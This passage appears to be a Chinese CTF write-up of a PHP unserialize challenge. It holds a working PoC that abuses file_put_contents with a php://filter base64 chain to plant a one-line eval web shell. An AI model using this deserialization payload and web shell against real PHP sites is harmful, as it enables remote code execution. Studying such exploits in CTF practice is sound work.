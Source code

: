 ```
    if(isset($code)){
       echo unserialize($code);
    }
    else{
        echo "no way, fuck off";
    }
?> 
```

关键点在于CTF类里的dosomething函数，这里面有一个file\_put\_contents可以利用

但是文件内容是有一个die函数，当我们访问生成的文件时，走到die函数就结束，自己写的内容就无效了

这里贴一个博客：[file\_put\_contents利用技巧(php://filter协议） - yokan - 博客园 (cnblogs.com)](https://www.cnblogs.com/yokan/p/12650702.html)讲的很不错的

这里就利用filter伪协议搭配过滤器绕过这个file\_put\_contents就可以了

生成反序列化字符串的poc👇

```
<?php
class Start{
    public $barking;

}

class CTF{
    public $part1='php://filter/write=string.strip_tags|convert.base64-decode/resource=hyh.php';
    public $part2='PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==';# @eval($_POST[a]);

}
$a=new Start();
$b=new CTF();
$a->barking=$b;
echo serialize($a);
#O:5:"Start":1:{s:7:"barking";O:3:"CTF":2:{s:5:"part1";s:75:"php://filter/write=string.strip_tags|convert.base64-decode/resource=hyh.php";s:5:"part2";s:36:"PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==";}}
```
